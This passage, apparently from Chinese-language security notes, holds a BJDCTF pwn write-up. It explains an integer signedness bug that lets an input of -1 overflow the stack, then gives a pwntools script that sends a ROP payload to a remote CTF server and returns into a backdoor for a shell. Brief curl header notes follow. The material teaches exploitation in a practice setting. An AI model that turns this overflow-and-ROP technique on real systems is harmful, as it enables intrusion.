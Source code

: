 ```C
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```
`nbytes`，无符号整型，当输入`-1`时，会变为无符号整型的最大值，可以导致栈溢出，最后注意栈对齐。
#### Payload
```python
#!/usr/bin/env python
from pwn import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')
#p = process('./pwn')
p = remote("node4.anna.nssctf.cn", "28135")
elf = ELF('./pwn')
back_door_addr = elf.sym['backdoor']
ret_addr = 0x400599 # ROPgadget --binary pwn --only "ret|pop"
offset = 0x10 + 0x8
payload = cyclic(offset) + p64(ret_addr) + p64(back_door_addr)
p.sendlineafter("[+]Please input the length of your name:\n",b'-1')
p.sendlineafter("[+]What's u name?\n", payload)
p.interactive()
```

---
## 免杀项目


---
## curl使用
### curl命令设置自定义的HTTP头
> curl是一个强大的命令行工具，它可以通过网络将信息传递给服务器或者从服务器获取数据。他支持很多的传输协议，尤其是HTTP/HTTPS以及其他诸如FTP/FTPS， RTSP， POP3/POP3S, SCP, IMAP/IMAPS协议等。当你使用curl向一个URL发送HTTP请求的时候，它会使用一个默认只包含必要的头部字段（如：User-Agent, Host, and Accept）的HTTP头。

使用`-v`参数展示该次请求的请求头信息(不包含数据部分)，并返回响应的报文
使用`-H`定义多个`HTTP`头部字段
```
-A(or --user-agent): 设置 "User-Agent" 字段
-b(or --cookie): 设置 "Cookie" 字段
-e(or --referer): 设置 "Referer" 字段
```
[参考资料](http://linux.cn/article-4957-1.html)

---